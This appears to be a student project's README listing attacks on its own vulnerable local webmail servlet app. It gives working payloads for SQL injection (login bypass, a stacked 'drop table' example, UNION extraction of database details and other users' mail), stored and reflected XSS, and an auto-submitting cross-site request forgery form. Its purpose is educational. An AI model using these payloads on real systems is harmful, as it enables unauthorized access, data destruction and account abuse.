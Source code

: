 # List of possible attacks

## SQL Injection

Unlocks: Get access without password.

On login, enter `<USERNAME>' --` as email, where `<USERNAME>` is the target username.
Enter as password any value. 
The 
resulting query:
```sql
SELECT * FROM [user] WHERE email='<USERNAME>' --' AND password='any'
```

Works, because the password is checked after the email and the input is not sanitized.

## SQL Injection

Unlocks: Run any SQL statement.

On login, enter `'; <SQL_STATEMENT> --` as email, where `<SQL_STATEMENT>` is any SQL statement, like `'; drop table [mail]; --` for 
example.
The resulting query:
```sql
SELECT * FROM [user] WHERE email=''; <SQL_STATEMENT>'
```

## Stored XSS

Unlocks: Run any JavaScript code on sender and receiver of email.

Once logged in, email an existing user with `<script>console.log("pwned");</script>` as the subject or the body of the email.
The resulting query:
```sql
INSERT INTO mail ( sender, receiver, subject, body, [time] )
VALUES ( '<sender>', '<receiver>', '<script>console.log("pwned subject");</script>', '<script>console.log("pwned body");</script>', '<timestamp>' )
```
`<sender>` and `<received>` can be any accepted value.
`<timestamp>` is auto-generated.

When emails are queried in a second moment, subject and body are read from the DB and directly embedded into the 
HTML that is sent, running the JavaScript code each time. This hold for the sender when visiting the page of sent emails
and for the receiver when visiting the inbox page.

_Note: It is important that the script does not use single quotes, because the SQL query uses single quotes already.
If the SQL query uses double quotes, then the script must use single quotes exclusively._

## Reflected XSS

On registration, pass `<script>console.log("pwned");</script>` as the email to run the script on the victim's browser.

This is equivalent to making a POST request to the following URL:
```
http://localhost:8080/exam-project/RegisterServlet?name=Name1&surname=Surname1&email=%3Cscript%3Econsole.log%28%22pwned%22%29%3B%3C%2Fscript%3E&password=123
```
This URL can be used for a XSRF attack, like shown below.

_Note: The email can be at most 50 characters long due the limit imposed by the database. 
Using a longer string throws an exception on the server and does not return the script in the response._

## Reflected XSS

Feature: Run any JavaScript code.

On registration, enter a valid email and `"><script>console.log("pwned");</script>` as password to run the script on the victim's browser.

This is equivalent to making a POST request to the following URL:
```
http://localhost:8080/exam-project/RegisterServlet?name=Name3&surname=Surname3&email=user3%40gmail.com&password=%22%3E%3Cscript%3Econsole.log%28%22pwned%22%29%3B%3C%2Fscript%3E
```
This URL can be used for a XSRF attack, like shown below.

The email check is disabled, because the responsible query is compiled to:
```sql
SELECT * FROM [user] WHERE email=''; --'
```
The password is not treated and embedded in the response, resulting in the execution of the script in the victim's browser.

_Note: The password can be at most 50 characters long due the limit imposed by the database.
Using a longer string throws an exception on the server and does not return the script in the response._

## XSRF

The following HTML page can be forged, such that the session cookie of the victim visiting the page is used to authenticate the sending of an arbitrary email.
In this example `user1@gmail.com` is forced to email `user2@gmail.com`.
```html
<form id="submitMail" class="form-resize" action="http://localhost:8080/exam-project/SendMailServlet"
      method="post">
    <input type="hidden" name="email" value="user1@gmail.com">
    <input class="hidden" name="receiver" placeholder="Receiver" required="" value="user2@gmail.com">
    <input class="hidden" name="subject" placeholder="Subject" required="" value="PWNED">
    <input class="hidden" name="body" placeholder="Body" required="" value="Forced message">
</form>
<script>document.forms.submitMail.submit();</script>
```

_Note: The sender does not have to be the owner of the cookie used to authenticate the request._

## In-band SQL Injection

On login, pass `user1@gmail.com' UNION SELECT CURRENT_USER, CURRENT_USER, @@VERSION, CURRENT_USER --` as email to receive a verbose description of the database version and the name of the current database user.

_Note: 4 expressions are used in the select statement, because the user table has 4 columns too. 
Only the 3rd and the 4th expression are then extracted and returned by the web server._

## In-band SQL Injection

Assume that we know the structure of the database tables.

On login, pass `' UNION SELECT subject, subject, subject, receiver FROM mail --` as email to receive 
the subject and the receiver of the first email returned by the database.

_Note: 4 expressions are used in the select statement, because the user table has 4 columns too. 
Only the 3rd and the 4th expression are then extracted and returned by the web server._